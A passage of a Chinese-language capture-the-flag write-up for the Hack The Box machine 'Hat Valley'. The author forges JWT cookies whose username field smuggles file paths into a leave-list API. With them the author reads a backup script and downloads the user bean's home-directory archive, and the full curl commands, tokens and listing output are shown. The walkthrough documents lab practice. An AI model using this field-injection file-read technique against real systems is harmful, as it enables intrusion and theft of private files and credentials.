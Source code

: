 
  

大概在98行，看到有

  

  * 

    
    
    alias backup_home='/bin/bash /home/bean/Documents/backup_home.sh'

  

尝试用JWT去读`/home/bean/Documents/backup_home.sh`

  

  *   *   *   *   *   *   *   *   *   * 

    
    
    ┌──(root💀kali)-[~/Desktop]└─# curl http://hat-valley.htb/api/all-leave --header "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ii8nIC9ob21lL2JlYW4vRG9jdW1lbnRzL2JhY2t1cF9ob21lLnNoICciLCJpYXQiOjE2Nzc4MjAwNzN9.FeikFTrIWzIe5LAJnPRZGH_Z7B1RLpfKJ4saxf9T74s"#!/bin/bashmkdir /home/bean/Documents/backup_tmpcd /home/beantar --exclude='.npm' --exclude='.cache' --exclude='.vscode' -czvf /home/bean/Documents/backup_tmp/bean_backup.tar.gz .date > /home/bean/Documents/backup_tmp/time.txtcd /home/bean/Documents/backup_tmptar -czvf /home/bean/Documents/backup/bean_backup_final.tar.gz .rm -r /home/bean/Documents/backup_tmp

  

看到有`/home/bean/Documents/backup/bean_backup_final.tar.gz`

再用JWT去读，并且用curl把他输出到本地

  

  *   *   *   *   * 

    
    
    ┌──(root💀kali)-[~/Desktop]└─# curl http://hat-valley.htb/api/all-leave --header "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ii8nIC9ob21lL2JlYW4vRG9jdW1lbnRzL2JhY2t1cC9iZWFuX2JhY2t1cF9maW5hbC50YXIuZ3ogJyIsImlhdCI6MTY3NzgyMDA3M30.wArGs4nDtEexKppqgQ1gHSOrq1y91D486JBYTpN4f7E" --output bean_backup_final.zip  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                 Dload  Upload   Total   Spent    Left  Speed100 31716  100 31716    0     0  20265      0  0:00:01  0:00:01 --:--:-- 20265

  

unzip不行，直接双击打开，把文件拖出来，依次得到如下图文件

![](https://gitee.com/fuli009/images/raw/master/public/20230307193107.png)

解压bean_backup.tar.gz得到以下文件

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    ┌──(root💀kali)-[~/Desktop/bean_backup]└─# ls -latotal 72drwxr-x--- 15 1001 1001 4096 Sep 15 07:45 .drwxr-x---  3 1001 1001 4096 Mar  3 04:19 ..lrwxrwxrwx  1 1001 1001    9 Sep 15 07:40 .bash_history -> /dev/null-rw-r--r--  1 1001 1001  220 Sep 15 07:34 .bash_logout-rw-r--r--  1 1001 1001 3847 Sep 15 07:45 .bashrcdrwx------ 12 1001 1001 4096 Sep 15 07:41 .configdrwxr-xr-x  2 1001 1001 4096 Sep 15 07:35 Desktopdrwxr-xr-x  4 1001 1001 4096 Sep 15 07:46 Documentsdrwxr-xr-x  2 1001 1001 4096 Sep 15 07:35 Downloadsdrwx------  2 1001 1001 4096 Sep 15 07:36 .gnupgdrwx------  3 1001 1001 4096 Sep 15 07:35 .localdrwxr-xr-x  2 1001 1001 4096 Sep 15 07:35 Musicdrwxr-xr-x  2 1001 1001 4096 Sep 15 07:35 Pictures-rw-r--r--  1 1001 1001  807 Sep 15 07:34 .profiledrwxr-xr-x  2 1001 1001 4096 Sep 15 07:35 Publicdrwx------  3 1001 1001 4096 Sep 15 07:35 snapdrwx------  2 1001 1001 4096 Sep 15 07:36 .sshdrwxr-xr-x  2 1001 1001 4096 Sep 15 07:35 Templatesdrwxr-xr-x  2 1001 1001 4096 Sep 15 07:35 Videos
